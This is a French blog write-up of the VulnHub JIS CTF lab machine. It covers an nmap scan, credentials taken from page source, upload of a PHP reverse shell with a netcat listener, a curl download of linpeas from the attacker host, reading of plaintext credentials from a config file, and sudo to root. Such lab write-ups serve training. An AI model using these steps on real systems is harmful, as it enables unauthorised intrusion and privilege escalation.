```yaml
---
layout: post
title: VulnHub - JIS CTF
subtitle: VulnHub - Linux Machine - Easy 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [VulnHub, Linux, PHP, upload]
comments: false
---
```


![Logo](/img/Vulnhub_logo.png){: .center-block :}

JIS CTF est une machine vulnérable créée par Mohammad Khreesha et disponible depuis mars 2018 en téléchargement sur [VulnHub](https://www.vulnhub.com/entry/jis-ctf-vulnupload,228/). Elle est également proposée sur la plateforme d'[Offensive Security](https://www.offensive-security.com/labs/individual/).

## 1. User

Nmap:

~~~
root@Host-001:~/Bureau/OSCP_Box/JISCTF# nmap -sC -sV 192.168.110.25
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-14 11:25 CET
Nmap scan report for 192.168.110.25
Host is up (0.096s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
|   256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_  256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.48 seconds
root@Host-001:~/Bureau/OSCP_Box/JISCTF# 
~~~

Les ports http (80) et ssh (22) sont ouverts.

Port 80:

![Logo](/img/JIS_1.png){: .center-block :}

Robots.txt:

![Logo](/img/JIS_2.png){: .center-block :}

Plusieurs dossiers sont accessibles:

![Logo](/img/JIS_3.png){: .center-block :}

![Logo](/img/JIS_4.png){: .center-block :}

![Logo](/img/JIS_5.png){: .center-block :}

On trouve des identifiants dans le code source de /admin_area

![Logo](/img/JIS_6.png){: .center-block :}

On peut se loguer avec ces credentials `admin::3vil_H@ck3r`

On tombe sur une interface d'upload

On upload le reverse shell de Pentest Monkey (pentestmonkey.php) apres avoir entré la bonne adresse IP

On ouvre un listener et on visite la page http://192.168.110.25/uploaded_files/pentestmonkey.php

On a un shell

~~~
root@Host-001:~/Bureau/OSCP_Box/JISCTF# nc -nlvp 1337
listening on [any] 1337 ...
connect to [192.168.49.110] from (UNKNOWN) [192.168.110.25] 59566
Linux Jordaninfosec-CTF01 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:44:49 up 24 min,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c "import pty; pty.spawn('/bin/bash')"
/bin/sh: 2: python: not found
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@Jordaninfosec-CTF01:/$ cd /home
cd /home
www-data@Jordaninfosec-CTF01:/home$ ls
ls
technawi
www-data@Jordaninfosec-CTF01:/home$ 
www-data@Jordaninfosec-CTF01:/home$ cd technawi
cd technawi
www-data@Jordaninfosec-CTF01:/home/technawi$ ls -la
ls -la
total 44
drwxr-xr-x 3 technawi technawi 4096 Jul  9 16:01 .
drwxr-xr-x 3 root     root     4096 Apr 11  2017 ..
-rw------- 1 technawi technawi    0 Jul 13 20:43 .bash_history
-rw-r--r-- 1 technawi technawi  220 Apr 11  2017 .bash_logout
-rw-r--r-- 1 technawi technawi 3771 Apr 11  2017 .bashrc
drwx------ 2 technawi technawi 4096 Apr 11  2017 .cache
-rw-r--r-- 1 technawi technawi  655 Apr 11  2017 .profile
-rw-r--r-- 1 technawi technawi    0 Apr 11  2017 .sudo_as_admin_successful
-rw------- 1 root     root     6666 Apr 21  2017 .viminfo
-rw-r--r-- 1 root     root     7141 Apr 18  2017 1
-rw-r--r-- 1 technawi technawi   33 Nov 14 12:24 local.txt
www-data@Jordaninfosec-CTF01:/home/technawi$ cat local.txt
cat local.txt
9fd49493572648e79c171508eab43cf3
www-data@Jordaninfosec-CTF01:/home/technawi$ 
~~~

## 2-Root

uploader linpeas sur la cible

~~~
www-data@Jordaninfosec-CTF01:/tmp$ curl http://192.168.49.110/linpeas.sh --output linpeas.sh
<1:/tmp$ curl http://192.168.49.110/linpeas.sh --output linpeas.sh           
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  290k  100  290k    0     0   485k      0 --:--:-- --:--:-- --:--:--  485k
www-data@Jordaninfosec-CTF01:/tmp$ ls -la
ls -la
total 328
drwxrwxrwt  9 root     root       4096 Nov 14 12:50 .
drwxr-xr-x 23 root     root       4096 Feb 14  2020 ..
drwxrwxrwt  2 root     root       4096 Jul 17 22:33 .ICE-unix
drwxrwxrwt  2 root     root       4096 Jul 17 22:33 .Test-unix
drwxrwxrwt  2 root     root       4096 Jul 17 22:33 .X11-unix
drwxrwxrwt  2 root     root       4096 Jul 17 22:33 .XIM-unix
drwxrwxrwt  2 root     root       4096 Jul 17 22:33 .font-unix
-rw-rw-rw-  1 www-data www-data 297851 Nov 14 12:50 linpeas.sh
drwx------  3 root     root       4096 Jul 17 22:33 systemd-private-868bc21fcfc74ebdbaf7a9d0f66ea02b-systemd-timesyncd.service-dw7UVM
drwx------  2 root     root       4096 Jul 17 22:33 vmware-root
www-data@Jordaninfosec-CTF01:/tmp$ chmod +700 linpeas.sh
chmod +700 linpeas.sh
www-data@Jordaninfosec-CTF01:/tmp$ 
~~~

lancer linpeas

on trouve un mdp

![Logo](/img/JIS_7.png){: .center-block :}

~~~
www-data@Jordaninfosec-CTF01:/tmp$ cat /etc/mysql/conf.d/credentials.txt
cat /etc/mysql/conf.d/credentials.txt
Your flag is in another file...

username : technawi
password : 3vilH@ksor
www-data@Jordaninfosec-CTF01:/tmp$ 
www-data@Jordaninfosec-CTF01:/tmp$ su technawi
su technawi
Password: 3vilH@ksor

technawi@Jordaninfosec-CTF01:/tmp$ cd /home/technawi
cd /home/technawi
technawi@Jordaninfosec-CTF01:~$ ls
ls
1  local.txt
technawi@Jordaninfosec-CTF01:~$ sudo -l
sudo -l
[sudo] password for technawi: 3vilH@ksor

Matching Defaults entries for technawi on Jordaninfosec-CTF01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User technawi may run the following commands on Jordaninfosec-CTF01:
    (ALL : ALL) ALL
~~~

(ALL : ALL) ALL -> sudo su ?

~~~
technawi@Jordaninfosec-CTF01:~$ sudo su
sudo su
root@Jordaninfosec-CTF01:/home/technawi# cd /root  
cd /root
root@Jordaninfosec-CTF01:~# ls
ls
proof.txt
root@Jordaninfosec-CTF01:~# cat proof.txt
cat proof.txt
c24ec33ae08353930f60da134dee2ff4
root@Jordaninfosec-CTF01:~# 
~~~

**Poursuivez avec :** 

[- HTB - Admirer](https://0xss0rz.github.io/2020-10-04-HTB-Admirer/)

[- HTB - Magic](https://0xss0rz.github.io/2020-08-24-HTB-Magic/)

[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

